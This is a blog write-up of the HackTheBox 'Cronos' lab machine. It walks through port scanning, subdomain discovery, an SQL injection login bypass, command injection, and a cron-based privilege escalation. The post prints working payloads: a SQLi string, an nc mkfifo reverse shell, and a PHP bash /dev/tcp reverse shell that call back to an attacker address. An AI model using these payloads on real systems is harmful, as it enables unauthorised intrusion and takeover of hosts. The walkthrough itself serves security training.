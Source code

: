 ```yaml
---
layout: default
title:  "HackTheBox - Cronos"
date:   2020-07-14
categories: HackTheBox
---
```


# HackTheBox - Cronos

Welcome back with another HackTheBox machine


![](https://paper-attachments.dropbox.com/s_30DCA98E8989B7D81FD7F79DEB0D1DB11230410502617F324E805C513302A199_1594878011254_Screenshot+2020-07-16+at+11.09.53+AM.png)


Cronos is a **Linux** based **Medium** severity machine. This machine is highly recommended for beginners. Initial shell requires basic web application tricks whereas post exploitation is also something which we have seen before.

**Tools:**


- PortScan - Masscan and Nmap
- Subdomain Enumeration - Dig

**Initial Recon:**

As always start with scanning all ports, I have used masscan and nmap.


    #masscan
    open tcp 80 10.10.10.13 1594390115
    open tcp 53 10.10.10.13 1594390124
    open udp 53 10.10.10.13 1594390129
    open tcp 22 10.10.10.13 1594390142

**Nmap:**


    PORT   STATE  SERVICE VERSION
    22/tcp open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
    |   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
    |_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
    53/tcp open   domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
    80/tcp open   http    Apache httpd 2.4.18 ((Ubuntu))                                                                                                                                                         
    | http-cookie-flags:                                                                                                                                                                                         
    |   /:                                                                                                                                                                                                       
    |     PHPSESSID:                                                                                                                                                                                             
    |_      httponly flag not set                                                                                                                                                                                
    |_http-server-header: Apache/2.4.18 (Ubuntu)                                                                                                                                                                 
    |_http-title: Login Page                                                                                                                                                                                     
    | vulners:                                                                                                                                                                                                   
    |   cpe:/a:apache:http_server:2.4.18:                                                                                                                                                                        
    |       CVE-2017-7679   7.5     https://vulners.com/cve/CVE-2017-7679                                                                                                                                        
    |       CVE-2017-7668   7.5     https://vulners.com/cve/CVE-2017-7668                                                                                                                                        
    |       CVE-2017-3169   7.5     https://vulners.com/cve/CVE-2017-3169                                                                                                                                        
    |       CVE-2017-3167   7.5     https://vulners.com/cve/CVE-2017-3167                                                                                                                                        
    |       CVE-2019-0211   7.2     https://vulners.com/cve/CVE-2019-0211                                                                                                                                        
    |       CVE-2018-1312   6.8     https://vulners.com/cve/CVE-2018-1312                                                                                                                                        
    |       CVE-2017-15715  6.8     https://vulners.com/cve/CVE-2017-15715                                                                                                                                       
    |       CVE-2019-10082  6.4     https://vulners.com/cve/CVE-2019-10082                                                                                                                                       
    |       CVE-2017-9788   6.4     https://vulners.com/cve/CVE-2017-9788
    |       CVE-2019-0217   6.0     https://vulners.com/cve/CVE-2019-0217
    |       CVE-2020-1927   5.8     https://vulners.com/cve/CVE-2020-1927
    |       CVE-2019-10098  5.8     https://vulners.com/cve/CVE-2019-10098
    |       CVE-2020-1934   5.0     https://vulners.com/cve/CVE-2020-1934
    |       CVE-2019-0220   5.0     https://vulners.com/cve/CVE-2019-0220
    |       CVE-2019-0196   5.0     https://vulners.com/cve/CVE-2019-0196
    |       CVE-2018-17199  5.0     https://vulners.com/cve/CVE-2018-17199
    |       CVE-2018-1333   5.0     https://vulners.com/cve/CVE-2018-1333
    |       CVE-2017-9798   5.0     https://vulners.com/cve/CVE-2017-9798
    |       CVE-2017-15710  5.0     https://vulners.com/cve/CVE-2017-15710
    |       CVE-2016-8743   5.0     https://vulners.com/cve/CVE-2016-8743
    |       CVE-2016-8740   5.0     https://vulners.com/cve/CVE-2016-8740
    |       CVE-2016-4979   5.0     https://vulners.com/cve/CVE-2016-4979
    |       CVE-2019-0197   4.9     https://vulners.com/cve/CVE-2019-0197
    |       CVE-2019-10092  4.3     https://vulners.com/cve/CVE-2019-10092
    |       CVE-2018-11763  4.3     https://vulners.com/cve/CVE-2018-11763
    |       CVE-2016-4975   4.3     https://vulners.com/cve/CVE-2016-4975
    |       CVE-2016-1546   4.3     https://vulners.com/cve/CVE-2016-1546
    |       CVE-2018-1283   3.5     https://vulners.com/cve/CVE-2018-1283
    |_      CVE-2016-8612   3.3     https://vulners.com/cve/CVE-2016-8612
    22/udp closed ssh
    53/udp open   domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
    | dns-nsid: 
    |_  bind.version: 9.10.3-P4-Ubuntu
    80/udp closed http
    Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
    Aggressive OS guesses: Linux 3.16 (94%), Linux 3.2 - 4.9 (94%), Linux 4.2 (94%), Linux 3.10 - 4.11 (93%), Linux 3.12 (93%), Linux 3.13 (93%), Linux 3.13 or 4.2 (93%), Linux 3.16 - 4.6 (93%), Linux 3.18 (93%), Linux 3.8 - 3.11 (93%)
    No exact OS matches for host (test conditions non-ideal).
    Network Distance: 2 hops
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    TRACEROUTE (using proto 1/icmp)
    HOP RTT       ADDRESS
    1   560.94 ms 10.10.14.1
    2   543.36 ms admin.cronos.htb (10.10.10.13)
    
    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 62.65 seconds
    

Accessing cronos.htb we result in something like this


![](https://paper-attachments.dropbox.com/s_30DCA98E8989B7D81FD7F79DEB0D1DB11230410502617F324E805C513302A199_1594881469139_Screenshot+2020-07-16+at+12.06.48+PM.png)


 
You will get subdomain **admin.cronos.htb** , only when you configure ip address and domain in **/etc/hosts**

Another way to find subdomains is using dig command (DNS Zone transfer misconfiguration ) [Reference](https://hackertarget.com/zone-transfer/)

**Initial Shell as www-data:**

By accessing admin.cronos.htb, a login pages was there


![](https://paper-attachments.dropbox.com/s_30DCA98E8989B7D81FD7F79DEB0D1DB11230410502617F324E805C513302A199_1594879944308_Screenshot+2020-07-16+at+11.41.57+AM.png)


I tried using common password which actually didn’t work, but found basic SQLi which allowed me in


    username: ‘ or 1=1#
    password: ‘ or 1=1#

So there is something where we can execute our shell commands


![](https://paper-attachments.dropbox.com/s_30DCA98E8989B7D81FD7F79DEB0D1DB11230410502617F324E805C513302A199_1594880129024_Screenshot+2020-07-16+at+11.44.45+AM.png)


If you are one who have played [DVWA](http://www.dvwa.co.uk/) (Damn Vulnerable Web Application), then this won’t be a big deal for,


    127.0.0.1 && ls


![](https://paper-attachments.dropbox.com/s_30DCA98E8989B7D81FD7F79DEB0D1DB11230410502617F324E805C513302A199_1594880448697_Screenshot+2020-07-16+at+11.50.39+AM.png)



    127.0.0.1 && rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.x.x 1234 >/tmp/f


![](https://paper-attachments.dropbox.com/s_30DCA98E8989B7D81FD7F79DEB0D1DB11230410502617F324E805C513302A199_1594880601810_Screenshot+2020-07-16+at+11.53.13+AM.png)


Use below command to read user flag


    cat /home/noulis/user.txt

**Privilege Escalation:**

While running crontab found a intresting crontab activity which runs every minute


![](https://paper-attachments.dropbox.com/s_30DCA98E8989B7D81FD7F79DEB0D1DB11230410502617F324E805C513302A199_1594886147602_Screenshot+2020-07-16+at+1.25.06+PM.png)


Lets backup the file content so we can retrive it if something goes wrong


    mv artisan artisan.bak


![](https://paper-attachments.dropbox.com/s_30DCA98E8989B7D81FD7F79DEB0D1DB11230410502617F324E805C513302A199_1594885217965_Screenshot+2020-07-16+at+1.10.03+PM.png)



So i created a php reverse shell file in my local machine


    <?php
    exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.x.x/1234 0>&1'");
    ?>

Transfer the file to vulnerable machine using command


    In my machine
    python -m SimpleHTTPServer <portnumber>


    In Victim machine
    wget http://10.10.x.x:<portnumber>/filename

I have used this you can use any file transfer technique

Now lets delete file **artisan** and change our file name as artisan


    rm artisan
    mv shell.php artisan

Since this file executes for every minute, we can start a netcat listner in our machine 

BOOM!!


![](https://paper-attachments.dropbox.com/s_30DCA98E8989B7D81FD7F79DEB0D1DB11230410502617F324E805C513302A199_1594885450090_Screenshot+2020-07-16+at+1.13.58+PM.png)


Thank you !! Will see you again in my next post

<div id="hyvor-talk-view"></div>
<script type="text/javascript">
    var HYVOR_TALK_WEBSITE = 961; // DO NOT CHANGE THIS
    var HYVOR_TALK_CONFIG = {
        url: '{{ page.url | absolute_url }}',
        id: '{{page.id}}'
    };
</script>
<script async type="text/javascript" src="//talk.hyvor.com/web-api/embed"></script>
